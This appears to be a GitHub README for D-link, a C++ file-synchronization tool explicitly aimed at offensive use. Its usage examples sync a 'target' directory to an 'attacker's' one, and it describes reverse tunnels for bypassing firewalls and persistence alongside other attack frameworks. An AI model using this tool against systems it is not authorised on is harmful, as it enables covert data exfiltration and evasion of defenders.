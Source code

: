 # D-link

D-link is a lightweight Linux file synchronization tool written in C++.
1. Supports reverse file synchronization operations.
2. Directory monitoring, real-time updates.
3. Access control: Clients are only allowed to automatically upload and delete files, and cannot download sensitive files from the server. Even if synchronized files are deleted from the server, clients will automatically restore them.
4. Client-side deletion of server files.
5. Persistence: Can be used with Tyrant or S-Clustr to form a powerful self-healing network cluster.

# Usage

```
$ ./dlink -h
```

![alt text](pic/image.png)

## D-link Forward Tunnel (Client to Server File Synchronization)

Example: (Real-time synchronization of the target directory to the attacker’s directory)

Server:

![alt text](pic/image-2.png)

```
$ ./dlink server --port <LOCAL-PORT> --path <PATH>
```

![alt text](pic/image-3.png)

Client:

![alt text](pic/image-1.png)

```
$ ./dlink client --endpoint <IP:PORT> --path <PATH>
```

![alt text](pic/image-4.png)

Server:

![alt text](pic/image-5.png)

## D-link Reverse Tunnel (Server to Client File Synchronization)

PS: Typically used to bypass firewalls and prevent data interception.

Example: (Real-time synchronization of the attacker’s directory to the target directory)

Server:

![alt text](pic/image-6.png)

```
$ ./dlink server --port <LOCAL-PORT> --path <PATH> --reverse
```

![alt text](pic/image-7.png)

```
$ ./dlink client --endpoint <IP:PORT> --path <PATH> --reverse
```

![alt text](pic/image-8.png)

![alt text](pic/image-9.png)